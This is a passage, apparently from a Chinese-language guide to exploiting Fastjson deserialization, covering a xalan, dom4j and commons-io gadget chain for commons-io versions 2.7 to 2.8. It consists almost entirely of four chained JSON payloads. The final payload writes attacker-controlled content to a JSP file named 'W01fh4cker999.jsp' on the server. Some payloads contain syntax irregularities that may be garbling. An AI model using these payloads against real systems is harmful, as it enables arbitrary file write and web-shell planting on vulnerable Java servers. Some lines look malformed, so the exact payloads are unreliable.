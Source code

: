 ### 5.3.2 xalan+dom4j+commons-io（2.7~2.8版本）

还是分四步打。

`payload51`（组合拳）：

```json
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```json
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```json
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker999.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```

